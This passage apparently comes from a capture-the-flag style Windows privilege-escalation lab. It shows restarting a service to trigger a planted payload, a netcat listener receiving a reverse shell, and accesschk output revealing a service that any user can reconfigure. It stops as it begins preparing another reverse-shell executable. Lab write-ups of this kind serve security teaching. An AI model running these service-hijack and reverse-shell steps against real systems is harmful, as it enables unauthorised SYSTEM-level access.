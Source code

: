 Once the service gets restarted, your payload should execute:

```cmd
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with `svcusr2` privileges:

```bash
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
```

Go to `svcusr2` desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use `Accesschk` from the Sysinternals suite. For your convenience, a copy is available at `C:\tools`. The command to check for the `thmservice` service DACL is:

```cmd
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
    SERVICE_QUERY_STATUS
    SERVICE_QUERY_CONFIG
    SERVICE_INTERROGATE
    SERVICE_ENUMERATE_DEPENDENTS
    SERVICE_PAUSE_CONTINUE
    SERVICE_START
    SERVICE_STOP
    SERVICE_USER_DEFINED_CONTROL
    READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
    SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\Users` group has the `SERVICE_ALL_ACCESS` permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
